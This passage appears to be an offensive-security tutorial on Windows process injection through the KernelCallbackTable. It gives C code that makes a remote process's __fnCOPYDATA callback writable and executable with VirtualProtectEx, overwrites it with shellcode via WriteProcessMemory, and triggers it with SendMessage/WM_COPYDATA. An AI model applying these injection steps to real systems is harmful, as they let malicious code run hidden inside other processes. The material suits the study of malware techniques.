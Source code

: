 > ### VirtualProtectEx to change mem permission

We now have a pointer to a specific element, allowing us to change its memory location permissions using _**VirtualProtectEx**_.

Next, we can overwrite a few bytes. Each time _**fnCOPYDATA**_ is called, it will execute our injected shellcode, such as a MessageBox.

Using _**SendMessage**_ triggers _**WM_COPYDATA**_, which calls _**fnCOPYDATA**_. When we send a message to a process (e.g., notepad.exe), it triggers the event, looks at the table, copies data, calls _**fnCOPYDATA**_, and executes our code.

To change the memory location permissions, we use _**VirtualProtectEx**_, which works on remote processes. The normal _**VirtualProtect**_ function is for local processes.

- We define _**dwOld**_ to receive the previous access protection:
```c
DWORD dwOld;
VirtualProtectEx(hProc, kct.__fnCOPYDATA, dwShellcode, PAGE_EXECUTE_READWRITE, &dwOld);
```

- The shellcode will contain:
```c
CHAR shellcode[] = "\\xcc\\xcc\\xcc\\xcc";
DWORD dwShellcode = 4;
```

Each time a debugger is attached, _**0xCC**_ will cause a breakpoint, making debugging easier.

We should avoid writing extensive shellcode that might overwrite arbitrary memory with callbacks. Instead, we patch it and change it to a pointer to the address created using _**VirtualAlloc**_.

By doing this, we've changed the memory location permission and set it to read-write-execute (RWX).

> ### Writing to process memory using _**WriteProcessMemory**_

- This code inserts shellcode into a process's memory and displays the number of bytes successfully written.
```c
WriteProcessMemory(hProc, kct.__fnCOPYDATA, shellcode, dwShellcode, &dwBytesRead);
printf("%d bytes written\\n", dwBytesRead);
```

> ### Triggering the event using _**SendMessage**_

We are ready to trigger the event using _**SendMessage**_. To do this, we will need a handle to the window (_**hwnd**_). We will retrieve a window element since this is how we will send messages inside the process.

To get the _**hwnd**_, we will use the _**FindWindowEx**_ We will retrieve a handle to that element.

Once we have the handle to _**shell_traywnd**_, we need to tie it to a process. We can do this using _**GetWindowThreadProcessId**_. Here is an example code:

```c
COPYDATASTRUCT cds;
cds.dwData = 1;
cds.cbData = 4;
cds.lpData = "AAAA";

HWND hw = NULL;
DWORD dwWindowPID = 0;
do {
    hw = FindWindowEx(NULL, hw, NULL, NULL);
    GetWindowThreadProcessId(hw, &dwWindowPID);
    if (dwWindowPID == PID) {
        printf("HWND %p belongs to PID %d\\n", hw, PID);
        LRESULT result = SendMessage(hw, WM_COPYDATA, (WPARAM)hw, (LPARAM)&cds);
        printf("GetLastError returned %d\\n", GetLastError());
    }
} while (hw != NULL);
```